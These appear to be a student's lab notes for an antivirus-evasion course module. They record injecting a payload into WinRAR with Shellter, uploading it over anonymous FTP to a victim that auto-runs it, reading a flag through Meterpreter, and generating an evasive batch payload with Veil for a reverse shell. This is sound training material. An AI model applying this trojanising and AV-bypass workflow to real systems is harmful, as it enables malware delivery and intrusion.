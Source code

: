 
# 17.3.5.5
In this exercise, you'll be facing off against **COMODO** antivirus engine running on VM #1.  
Use another popular 32-bit application, like Putty, to replicate the steps learned so far in order to inject malicious code in the binary with Shellter.  
The victim machine runs an anonymous FTP server with open read/write permissions. Every few seconds, the victim user will double-click on any existing **.exe** Windows PE file(s) in the FTP root directory.  
If the antivirus flags the script as malicious, the script will be quarantined and then deleted. Otherwise, the script will execute and, hopefully, grant you a reverse shell.  
**NOTE:** set the FTP session as _active_ and enable _binary_ encoding while transferring the file.  
  
  
Using WinRAR.exe from the chapter.  
  
Use default user: anonymous. No pw.  
  
**passive..... Prevents entering Extended Passive Mode when attempting to upload binary

```bash
ftp <vic_ip>  
	Connected to 192.168.224.53.  
	220 Microsoft FTP Service  
	Name (192.168.224.53:kali): Anonymous  
	331 Anonymous access allowed, send identity (e-mail name) as password.  
	Password:   
	230 User logged in.  
	Remote system type is Windows_NT.  
ftp> passive  
	Passive mode: off; fallback to active mode: off.  
ftp> bin  
	200 Type set to I.  
ftp> put winrar-x32-611.exe   
	local: winrar-x32-611.exe remote: winrar-x32-611.exe  
	200 EPRT command successful.  
	150 Opening BINARY mode data connection.
	100% |*****************************************************|  3140 KiB  579.11 KiB/s    00:00 ETA  
	226 Transfer complete.  
	3215872 bytes sent in 00:05 (569.71 KiB/s)
```

In [**Meterpreter**](Meterpreter.md) session:
```bash
cat C:\\Users\\Administrator\\Desktop\\flag.txt
```


# 17.3.5.6
Similar to the previous exercise, you'll be facing off against **COMODO** antivirus engine v12.2.2.8012 on VM #2.  
  
Although the PowerShell AV bypass we covered in this module is substantial, it has an inherent limitation:  
The malicious script cannot be "double-clicked" by the user for an immediate execution. Instead, it would open in **notepad.exe** or another default text editor.  
  
The tradecraft of manually weaponizing PowerShell scripts is beyond the scope of this module, but we can rely on another open-source framework to help us automate this process.  
Research how to install and use the [Veil](https://github.com/Veil-Framework/Veil) framework to help you with this challenge.  
The victim machine runs an anonymous FTP server with open read/write permissions.  
Every few seconds, the victim user will double-clck on any existing **.bat** Windows batchscript file(s) in the FTP root directory.  
If the antivirus flags the script as malicious, the script will be quarantined and then deleted. Otherwise, the script will execute and, hopefully, grant you a reverse shell

[**Veil**](Veil.md):
![[veil.png]]

list:
![[veil1.png]]
![[veil2.png]]
![[veil3.png]]

Payload is saved to:
```bash
/var/lib/veil/output/source/payload.bat
```